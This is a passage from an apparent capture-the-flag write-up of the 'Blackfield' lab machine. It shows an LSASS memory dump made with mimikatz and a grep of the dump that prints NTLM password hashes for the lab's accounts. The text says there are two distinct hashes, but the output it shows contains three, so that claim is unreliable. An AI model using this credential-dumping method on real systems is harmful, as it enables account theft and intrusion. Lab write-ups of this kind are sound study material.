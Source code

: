 ![mimi_lsass](/images/blackfield/mimi_lsass.png) 

Since the output was quite lenthy, a quick grep for the ntlm hashes shwow that their are only 2 distinct hashes, the first one for user svc_backup and the second for the rest of the users.

```
root@kali:~/pwn_share/Machines/Blackfield# grep -i ntlm lsass_out.txt          * NTLM     : 9658d1d1dcd9250115e2205d9f48400d
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
         * NTLM     : 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
         * NTLM     : 9658d1d1dcd9250115e2205d9f48400d
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
         * NTLM     : b624dc83a27cc29da11d9bf25efea796
```
